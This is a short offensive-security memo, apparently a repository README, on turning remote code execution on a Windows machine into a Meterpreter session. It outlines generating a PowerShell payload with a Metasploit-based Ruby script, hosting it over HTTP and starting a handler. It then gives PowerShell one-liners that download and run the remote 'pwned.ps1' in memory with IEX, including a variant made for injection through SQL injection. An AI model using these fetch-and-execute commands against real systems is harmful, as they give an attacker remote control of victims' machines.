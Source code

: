  RCE to Meterpreter session via Powershell<br/>================================================================================<br/><br/>If in a position where a RCE was obtained on a Windows machine and in need to <br/>upgrade to a better shell than this memo can help.<br/><br/>tl;dr; The ruby script generates a powershell script which will be downloaded <br/>and executed in target box's memory via the use of IEX Powershell command.<br/><br/>It is recommended to run the ruby script in Kali as it uses Metasploit. <br/>Originally this script was created to generate this same technique and payload <br/>for the RubberDucky. The same script it is now recycled for the same goal but <br/>delivered differently.<br/><br/>Steps:<br/> - run the ruby script in kali and follow the steps<br/> - open the created powershell script and copy the line from "powershell -nop" onwards<br/> - save the copied text in a new powershell script (save it as .ps1)<br/> - make the new ps1 script available with SimpleHTTPServer or the like<br/> - in Kali, start a exploit/multi/handler and use the same config defined in step 1<br/> - on the target machine execute the following powershell command(define the IP and port)<br/><br/><br/>`powershell IEX (New-Object Net.WebClient).DownloadString('http://server:port/pwned.ps1');`<br/><br/><br/>The IEX command is a bit picky and it really likes the single quotes. In the past I <br/>had to inject the command via a SQL injection and I couldn't escape or reuse the <br/>sigle quote. The hack that worked for me is the following command:<br/><br/><br/><br/>`powershell Set-Variable -Name "urlz" -Value “http://server:port/pwned.ps1" ;IEX (New-Object Net.WebClient).DownloadString($urlz);`<br/><br/><br/><br/>Good luck and Have Fun!!!<br/><br/><br/><br/>